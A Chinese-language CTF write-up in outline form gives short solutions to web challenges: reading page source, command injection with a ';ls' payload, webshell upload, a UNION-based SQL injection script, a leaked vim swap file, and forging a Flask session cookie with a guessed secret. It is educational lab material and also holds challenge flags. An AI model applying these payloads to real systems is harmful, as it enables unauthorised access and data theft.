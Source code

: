 - # 我Flag呢？
	- 打开F12看源码
- # Follow me and hack me
	- GET和POST测试题目
- # Ping
	- 简单命令执行，payload: ``1145141919810;ls``
- # 导弹迷踪
	- `wget -r 网站`下载源码
	- 然后在`game.js`中看到flag：``{y0u_w1n_th1s_!!!}``
- # PHP是世界上最好的语言！！
	- 右边执行php代码，左边看结果
- # 作业管理系统
	- F12看到账户名和密码
	- 登陆上传webshell`123.php`，访问`/123.php`即可
- # vim yyds
	- `.index.php.swp`泄漏
- # 就当无事发生
	- `git clone`，然后`git diff HEAD^ HEAD`看最新commit和上一个commit的区别
- # 这是什么？SQL ！注一下 ！
	- 普通SQL注入，注意flag在`ctftraining.flag`这个表下，不在当前的数据库下
	- ```python
	  r = base_get(url, params = {
	      "id": "1)))))) union select 1,(select flag from ctftraining.flag)#"
	  })
	  # flag,news,users,users
	  # information_schema,mysql,ctftraining,performance_schema,test,ctf
	  print(r.text)
	  ```
- # Flag点击就送！
	- 题目环境为flask, 猜测需要flask解密cookie
	- 题目没有明显漏洞，secret应该只能猜出
	- 猜测secret为`LitCTF`，使用 [[CTF/Flask-Unsign]] 解密成功
	- 使用[Flask-Unsign]([[CTF/Flask-Unsign]])即可伪造cookie, 提交即可拿到flag
		- ```shell
		  flask-unsign -s --secret LitCTF --cookie '{"name":"admin"}'
		  ```
	-